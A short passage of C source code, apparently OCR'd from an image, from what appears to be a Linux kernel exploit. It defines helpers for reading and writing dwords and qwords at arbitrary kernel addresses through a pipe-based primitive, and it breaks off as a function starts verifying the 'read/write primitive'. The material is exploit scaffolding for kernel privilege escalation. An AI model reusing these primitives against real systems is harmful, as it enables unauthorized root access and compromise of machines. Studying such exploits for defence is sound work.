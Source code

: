 ```
   if( (size_t)nBytesWritten != Length ){
       printf("[-] Failed to write data from user: %p\n",Address);
       exit(EXIT_FAILURE);
   }

   ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], Address, Length);

   if( (size_t)nBytesRead != Length ){
       printf("[-] Failed to write data to kernel: %p\n",Address);
       exit(EXIT_FAILURE);
   }

}


uint64_t kReadQword(void *Address) {
    uint64_t buffer = 0;

    kRead(Address, sizeof(buffer), &buffer);
    return buffer;
}


/**
 * Read dword from arbitrary address
 *
 * @param Address: address from where to read
 * @return: dword
 */
uint32_t kReadDword(void *Address) {
    uint32_t buffer = 0;

    kRead(Address, sizeof(buffer), &buffer);
    return buffer;
}


/**
 * Write dword to arbitrary address
 *
 * @param Address: address where to write
 * @param Value: value to write
 */
void kWriteDword(void *Address, uint32_t Value) {
    kWrite(Address, sizeof(Value), &Value);
}


/**
 * Write qword to arbitrary address
 *
 * @param Address: address where to write
 * @param Value: value to write
 */
void kWriteQword(void *Address, uint64_t Value) {
    kWrite(Address, sizeof(Value), &Value);
}

void JudgeRWAnyWhere(){
    printf("[+] Verifying read/write primissive\n");


    pid_t currentPid = getpid();
```